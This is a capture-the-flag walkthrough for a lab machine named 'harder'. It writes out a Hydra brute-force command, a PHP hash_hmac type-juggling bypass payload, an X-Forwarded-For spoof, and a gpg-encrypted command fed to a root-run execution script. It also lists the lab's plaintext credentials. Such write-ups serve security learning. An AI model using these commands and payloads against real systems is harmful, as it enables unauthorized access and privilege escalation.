# harder

## Enumeration

Start with an `nmap` scan per usual to see which ports are open, and what services run on the respective ports. `sudo nmap -Pn -v -A 10.10.222.15`



The website at port `80` seems empty, so we use `gobuster` to find hidden directories. This also seems to fail, because all requests are redirected to a standard error site.

By using Burp Suite we observe a _domain_ tag in the response from the website.

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 20 Sep 2020 18:13:29 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Vary: Accept-Encoding
X-Powered-By: PHP/7.3.19
Set-Cookie: TestCookie=just+a+test+cookie; expires=Sun, 20-Sep-2020 19:13:29 GMT; Max-Age=3600; path=/; domain=pwd.harder.local;secure
```

This response sets a cookie that is associated with the domain `pwd.harder.local`. When sending a request through burp to _pwd.harder.local_ we see that the site now has a lot more content.



We thus need to associate the IP to the webserver with _pwd.harder.local_. `sudo nano /etc/hosts` and adding `<IP_to_server> pwd.harder.local` under the IPv4 section. This means that going to the website `pwd.harder.local` will take you to the associated IP.

Going to `pwd.harder.local` prompts us with a login. 



Using Hydra we try to crack the password `hydra pwd.harder.local -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/index.php:action=set_login&user=^USER^&pass=^PASS^:Invalid"`, and end up getting `[80][http-post-form] host: pwd.harder.local   login: admin   password: admin`.

username: admin

password: admin

After some trying and failing, I run gobuster on http://pwd.harder.local/ to try and find a hidden directory. Lucky for us there seems to be a hidden `/.git/` directory!



By going to `/.git/HEAD` we're prompted with a download for the HEAD file.



Using [GitDumper.py](https://github.com/arthaud/git-dumper/blob/master/git-dumper.py) I recursively try to download the contents of the hidden .git directory.



GitDumper found three php files in the .git directory. Taking a look at the first one, `auth.php` we see on the first line that the admin username and password is defined in plain text.


The `hmac.php` file, on the other hand, contains some very interesting code
```php
<?php
if (empty($_GET['h']) || empty($_GET['host'])) {
   header('HTTP/1.0 400 Bad Request');
   print("missing get parameter");
   die();
}
require("secret.php"); //set $secret var
if (isset($_GET['n'])) {
   $secret = hash_hmac('sha256', $_GET['n'], $secret);
}

$hm = hash_hmac('sha256', $_GET['host'], $secret);
if ($hm !== $_GET['h']){
  header('HTTP/1.0 403 Forbidden');
  print("extra security check failed");
  die();
}
?>
```

This code throws a 40x error unless you somohow manage you know the secret generated `hm` value. You must send in at least two values `h` and `host`, and a seemingly optional `n`. [Refer to this article for more information regarding why this code is vulnerable](https://www.securify.nl/blog/spot-the-bug-challenge-2018-warm-up). The really boiled down version of why this is exploitable is becase `hash_hmac('sha256', $_GET['n'], $secret)`, where `n` is an empty array and not a string, will return `false`. We can therefore always know the salt, `$secret=false`, which is used while generating `$hm = hash_hmac('sha256', $_GET['host'], $secret);`. This means that we can generate the hash locally and send it in together with the pre-image of the hash to get access.

By running 
```php
<?php
$secret = hash_hmac('sha256', "LookMomImHacking", false);
echo $secret;
?>
```
We get the hash `aca57efd1094b6befc7c79c010899e97364bd971523cd24236e26beed850bbfb`. 

From there it was easy to construct the payload `http://pwd.harder.local/index.php?h=aca57efd1094b6befc7c79c010899e97364bd971523cd24236e26beed850bbfb&n[]=&host=LookMomImHacking`, which gave us a link to a new "shell" and a pair of credentials. 



```
Username: evs
Password: 9FRe8VUuhFhd3GyAtjxWn0e9RfSGv7xm
```

Heading to `shell.harder.local` gives us an _unknown host_ error. It must be added to `/etc/hosts` before we can proceed. It works, and we're greeted with a login page. After entering the credentials above we are met with yet another roadblock.


By changing the `X-Forwarded-For` header to something valid (for example 10.10.10.10) we are able to fool the server into thinking our request originated from that IP.
In Burp Suite's proxy you can use _match and replace_ to automatically add the header to all requests.



Finally! We get access to some sort of shell we're able to interact with.



By poking around a little we find `evs` home directory, and the user's `user.txt` file.



Great! We got the user flag, but we want to further escalate our privileges. An method that often comes in handy is searching for all files that belong to our user. The user is in this case `www`. So we execute the command `find / -user www`. In the myriad of files we find this suspicious lookign script.





Heading over to this file gives us some new credentials for `evs`.

```bash
#!/bin/ash

# ToDo: create a backup script, that saves the /www directory to our internal server
# for authentication use ssh with user "evs" and password "U6j1brxGqbsUA$pMuIodnb$SZB4$bw14"
```

We got lucky when testing the credentials out on SSH.



I uploaded and ran _linpeas_, which told me to take a look at a file called `run-crypted.sh` and some public key looking file.



The `run-crypted.sh` file looks like this

```bash
if [ $# -eq 0 ]
  then
    echo -n "[*] Current User: ";
    whoami;
    echo "[-] This program runs only commands which are encypted for root@harder.local using gpg."
    echo "[-] Create a file like this: echo -n whoami > command"
    echo "[-] Encrypt the file and run the command: execute-crypted command.gpg"
  else
    export GNUPGHOME=/root/.gnupg/
    gpg --decrypt --no-verbose "$1" | ash
fi
```

This script seeems to run any command passed to it, given that it's encrypted with the recipients `root@harder.local`'s key.

Linpeas convenietly also found what seems to be a public key in `/var/backup/root@harder.local.pub`.
Checking this out gives us this public key we can use to encrypt a command with:

```
-----BEGIN PGP PUBLIC KEY BLOCK-----

mDMEXwTf8RYJKwYBBAHaRw8BAQdAkJtb3UCYvPmb1/JyRPADF0uYjU42h7REPlOK
AbiN88i0IUFkbWluaXN0cmF0b3IgPHJvb3RAaGFyZGVyLmxvY2FsPoiQBBMWCAA4
FiEEb5liHk1ktq/OVuhkyR1mFZRPaHQFAl8E3/ECGwMFCwkIBwIGFQoJCAsCBBYC
AwECHgECF4AACgkQyR1mFZRPaHSt8wD8CvJLt7qyCXuJZdOBPR+X7GI2dUg0DRRu
c5gXzwk3rMMA/0JK6ZwZCHObWjwX0oLc3jvOCgQiIdaPq1WqN9/fhLAKuDgEXwTf
8RIKKwYBBAGXVQEFAQEHQNa/To/VntzySOVdvOCW+iGscTLlnsjOmiGaaWvJG14O
AwEIB4h4BBgWCAAgFiEEb5liHk1ktq/OVuhkyR1mFZRPaHQFAl8E3/ECGwwACgkQ
yR1mFZRPaHTMLQD/cqbV4dMvINa/KxATQDnbaln1Lg0jI9Jie39U44GKRIEBAJyi
+2AO+ERYahiVzkWwTEoUpjDJIv0cP/WVzfTvPk0D
=qaa6
-----END PGP PUBLIC KEY BLOCK-----
```

If we're able to run commands with escalated privileges by encrypting a message with a public key, then there is obviously a massive security hole. The public key is, as the name suggests, a key anyone can access. Thus anyone might run a command as root.

In _gpg_ you may only encrypt a file with respect to a _recipient_ and not directly through a public key. We already know the public key and recipient's name. To construct a recipient in gpg you may run this command `gpg --homedir ~ --import /var/backup/root@harder.local.pub`

Simply create a new document with the command we want to run `echo -n "cat /root/root.txt > /home/evs/root.txt" > command`

Encrypt the command `gpg --homedir ~ --recipient root@harder.local --encrypt command`, and run `execute-crypted command.gpg` as instructed in the script. The encrypted command is then decrypted with the root's private key and then executed. We can then retrieve the root flag in our home directory!



Rooted! :^)